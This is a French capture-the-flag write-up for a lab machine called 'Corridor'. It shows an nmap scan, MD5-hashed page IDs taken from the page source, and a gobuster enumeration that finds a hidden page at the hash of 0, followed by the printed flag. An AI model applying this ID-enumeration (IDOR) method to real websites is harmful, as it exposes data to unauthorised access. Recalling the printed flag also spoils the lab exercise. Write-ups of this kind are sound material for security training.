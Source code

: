# Corridor

## What is the flag?

### Nmap Scan

```
Nmap scan report for 10.10.68.111
Host is up (0.27s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug httpd 2.0.3 (Python 3.10.2)
|_http-title: Corridor```

### Exploit IDOR

Nous pouvois voir des hash sur le code source de la site inspectons les:

`view-source:http://10.10.245.63/`

```
    <map name="image-map">
        <area target="" alt="c4ca4238a0b923820dcc509a6f75849b" title="c4ca4238a0b923820dcc509a6f75849b" href="c4ca4238a0b923820dcc509a6f75849b" coords="257,893,258,332,325,351,325,860" shape="poly">
        <area target="" alt="c81e728d9d4c2f636f067f89cc14862c" title="c81e728d9d4c2f636f067f89cc14862c" href="c81e728d9d4c2f636f067f89cc14862c" coords="469,766,503,747,501,405,474,394" shape="poly">
        <area target="" alt="eccbc87e4b5ce2fe28308fd9f2a7baf3" title="eccbc87e4b5ce2fe28308fd9f2a7baf3" href="eccbc87e4b5ce2fe28308fd9f2a7baf3" coords="585,698,598,691,593,429,584,421" shape="poly">
        <area target="" alt="a87ff679a2f3e71d9181a67b7542122c" title="a87ff679a2f3e71d9181a67b7542122c" href="a87ff679a2f3e71d9181a67b7542122c" coords="650,658,644,437,658,652,655,437" shape="poly">
        <area target="" alt="e4da3b7fbbce2345d7772b0674a318d5" title="e4da3b7fbbce2345d7772b0674a318d5" href="e4da3b7fbbce2345d7772b0674a318d5" coords="692,637,690,455,695,628,695,467" shape="poly">
        <area target="" alt="1679091c5a880faf6fb5e6087eb1b2dc" title="1679091c5a880faf6fb5e6087eb1b2dc" href="1679091c5a880faf6fb5e6087eb1b2dc" coords="719,620,719,458,728,471,728,609" shape="poly">
        <area target="" alt="8f14e45fceea167a5a36dedd4bea2543" title="8f14e45fceea167a5a36dedd4bea2543" href="8f14e45fceea167a5a36dedd4bea2543" coords="857,612,933,610,936,456,852,455" shape="poly">
        <area target="" alt="c9f0f895fb98ab9159f51fd0297e236d" title="c9f0f895fb98ab9159f51fd0297e236d" href="c9f0f895fb98ab9159f51fd0297e236d" coords="1475,857,1473,354,1537,335,1541,901" shape="poly">
        <area target="" alt="45c48cce2e2d7fbdea1afc51c7c6ad26" title="45c48cce2e2d7fbdea1afc51c7c6ad26" href="45c48cce2e2d7fbdea1afc51c7c6ad26" coords="1324,766,1300,752,1303,401,1325,397" shape="poly">
        <area target="" alt="d3d9446802a44259755d38e6d163e820" title="d3d9446802a44259755d38e6d163e820" href="d3d9446802a44259755d38e6d163e820" coords="1202,695,1217,704,1222,423,1203,423" shape="poly">
        <area target="" alt="6512bd43d9caa6e02c990b0a82652dca" title="6512bd43d9caa6e02c990b0a82652dca" href="6512bd43d9caa6e02c990b0a82652dca" coords="1154,668,1146,661,1144,442,1157,442" shape="poly">
        <area target="" alt="c20ad4d76fe97759aa27a0c99bff6710" title="c20ad4d76fe97759aa27a0c99bff6710" href="c20ad4d76fe97759aa27a0c99bff6710" coords="1105,628,1116,633,1113,447,1102,447" shape="poly">
        <area target="" alt="c51ce410c124a10e0db5e4b97fc2af39" title="c51ce410c124a10e0db5e4b97fc2af39" href="c51ce410c124a10e0db5e4b97fc2af39" coords="1073,609,1081,620,1082,459,1073,463" shape="poly">
    </map>
```

Grâce à crackstation nous avons pu voir que la premère hash est égale à 1. 
J'ai donc crée une wordlist avec toutes les hash puis j'ai lancer gobuster et le résultat est le suivant:

```
/a87ff679a2f3e71d9181a67b7542122c (Status: 200) [Size: 632]
/8f14e45fceea167a5a36dedd4bea2543 (Status: 200) [Size: 632]
/c9f0f895fb98ab9159f51fd0297e236d (Status: 200) [Size: 632]
/1679091c5a880faf6fb5e6087eb1b2dc (Status: 200) [Size: 632]
/eccbc87e4b5ce2fe28308fd9f2a7baf3 (Status: 200) [Size: 632]
/c81e728d9d4c2f636f067f89cc14862c (Status: 200) [Size: 632]
/45c48cce2e2d7fbdea1afc51c7c6ad26 (Status: 200) [Size: 632]
/a87ff679a2f3e71d9181a67b7542122c (Status: 200) [Size: 632]
/c4ca4238a0b923820dcc509a6f75849b (Status: 200) [Size: 632]
/cfcd208495d565ef66e7dff9f98764da (Status: 200) [Size: 797]
/c20ad4d76fe97759aa27a0c99bff6710 (Status: 200) [Size: 632]
/d3d9446802a44259755d38e6d163e820 (Status: 200) [Size: 632]
/6512bd43d9caa6e02c990b0a82652dca (Status: 200) [Size: 632]
```
Nous pouvons voir une différence entre tous ces directory c'est la hash où est écrit Size: 797. En effet cette dir contient le flag que nous cherchons.


*http://10.10.245.63/cfcd208495d565ef66e7dff9f98764da*

**Flag:** `flag{2477ef02448ad9156661ac40a6b8862e}`



